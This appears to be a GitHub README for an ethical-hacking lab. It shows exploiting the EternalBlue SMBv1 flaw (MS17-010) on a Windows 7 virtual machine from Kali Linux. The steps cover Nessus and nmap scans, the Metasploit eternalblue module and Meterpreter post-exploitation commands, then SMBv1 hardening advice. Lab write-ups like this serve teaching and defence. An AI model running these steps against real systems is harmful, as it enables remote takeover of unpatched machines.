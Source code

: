 # MS17-010 | EternalBlue Vulnerability Demonstration

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

## Task 3. View Your Computer Information


**CPU Specification** :- Intel(R) Core(TM) i5-10500 CPU @ 3.10 GHz

 Ethical hacking project (MS17-010 Eternal Blue)

# Lab setup & Environment
Operating system: Windows 10
Virtualisation software: Oracle virtual machine (version 7.1.0 r164728 (Qt6.5.3))
Download Oracle Virtual Machine:
https://www.oracle.com/au/virtualization/technologies/vm/downloads/virtualbox-downloads.html

# Virtual machines
-	windows 7 (64 bits)
IP address: 192.168.0.141
Type: Victim
Download Windows 7 ISO image link:
https://archive.org/details/Windows7-iso

-	 Kali Linux
Ip address: 192.168.0.78
Type: Attacker
Tools used: Nmap, Nessus, Metasploit framework
Download Kali Linux:
https://www.kali.org/get-kali/#kali-platforms

# Tools used:
Nmap: Port scanning
Nessus: Vulnerability scanning
Metasploit framework (Msfconsole): For exploitation and post exploitation

# Target Vulnerability:
Name: EternalBlue (MS17-010)
CVE ID: CVE-2017-0144
Type: Remote code execution
Service affected: SMB v1 (Port 445)

# Steps-by-steps Process
#1 Setup Oracle virtual box

  ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


#2 command:
Ping from kali Linux to windows:
ping 192.168.0.141

Ping from windows to kali Linux
ping 192.168.0.78

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 

Successful ping

Nessusd start and IP address:
https://localhost:8834

![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 

Vulnerability report

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

nmap 192.168.0.141
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


# Exploitation
Msfconsole

  ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

search ms1_010

  ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
  
use exploit/windows/smb/ms17_010_eternalblue
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 
option command
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

 
LHOST: 192.168.0.78
RHOST: 192.168.0.141 (Victim)
RPORT: 445
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

 
# Post exploitation
Meterpreter > getuid = Displays the username that the Meterpreter session is running as.

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

#1 System information

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

 
#2 Getting high level privilege
Meterpreter > run post/windows/manage/priv_migrate = get more privileged access

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG) 

#3 Screenshot command
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 
#4 Going into Desktop
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 
#5 Creating folder
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 

#6 Shutdown command
 
![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


## For Defense
-	Enable automatic updates for OS
-	Always apply latest Windows updates
Disable SMBv1 (For EternalBlue)
Powershell cmd : dism /online /norestart /disable-feature /featurename:SMB1Protocol
-	Enable firewall/ window defender
-	Block unwanted incoming/outgoing traffic
-	Create rules to block ports (eg 445 for SMB)
-	Use of antivirus and scheduled scans 








